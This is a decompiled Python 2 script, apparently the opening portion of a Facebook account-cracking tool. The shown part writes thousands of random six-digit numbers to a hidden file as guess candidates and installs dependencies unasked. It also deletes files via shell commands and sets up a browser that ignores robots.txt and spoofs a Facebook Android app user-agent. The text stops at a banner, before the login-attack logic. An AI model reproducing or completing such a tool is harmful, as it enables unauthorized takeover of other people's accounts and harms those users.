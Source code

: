 # Decompile by KangEhem:)
# with (uncompyle6) version : 3.7.4
# Time Succes decompile : 2022-09-07 08:13:36.727454
import os,sys,time,datetime,random,hashlib,re,threading,json,urllib,cookielib,getpass
os.system('rm -rf .txt')
for n in range(7000):
    number = random.randint(111111, 999999)
    
    sys.stdout = open('.txt', 'a')
    print(number)
    sys.stdout.flush()
    
try:
    import requests
except ImportError:
    os.system('pip2 install requests')
    
try:
    import mechanize
except ImportError:
    os.system('pip2 install mechanize')
    time.sleep(1)
    os.system('python2 number.py')
    
from multiprocessing.pool import ThreadPool
from requests.exceptions import ConnectionError
from mechanize import Browser
reload(sys)
sys.setdefaultencoding('utf8')
br = mechanize.Browser()
br.set_handle_robots(False)
br.set_handle_refresh(mechanize._http.HTTPRefreshProcessor(),max_time=1)
br.addheaders = [('user-agent','Dalvik/1.6.0 (Linux; U; Android 4.4.2; NX55 Build/KOT5506) [FBAN/FB4A;FBAV/106.0.0.26.68;FBBV/45904160;FBDM/{density=3.0,width=1080,height=1920};FBLC/it_IT;FBRV/45904160;FBCR/PosteMobile;FBMF/asus;FBBD/asus;FBPN/com.facebook.katana;FBDV/ASUS_Z00AD;FBSV/5.0;FBOP/1;FBCA/x86:armeabi-v7a;]')]
def exb():
	print '[!] Exit'
	os.sys.exit()
def psb(z):
	for e in z + '\n':
		sys.stdout.write(e)
		sys.stdout.flush()
		time.sleep(0.03)
def t():
    time.sleep(1)
def cb():
    os.system('clear')
B='\033[1;94m'
K='\033[1;90m'
M='\033[1;98m'
R='\033[1;91m'
G='\033[1;92m'
W='\033[1;97m'
S='\033[1;96m'
P='\033[1;95m'
Y='\033[1;93m'
logo = """
\033[1;91m●●●●●●●●●●●●●●●●●●●●●●●●●●●●●●●●●●●●●●●●
\033[1;92m●●●●●●●●●●●●●●●●●●●●●●●●●●●●●●●●●●●●●●●●
\033[1;93m●●●●●●●●●●●●●●●●●●●●●●●●●●●●●●●●●●●●●●●●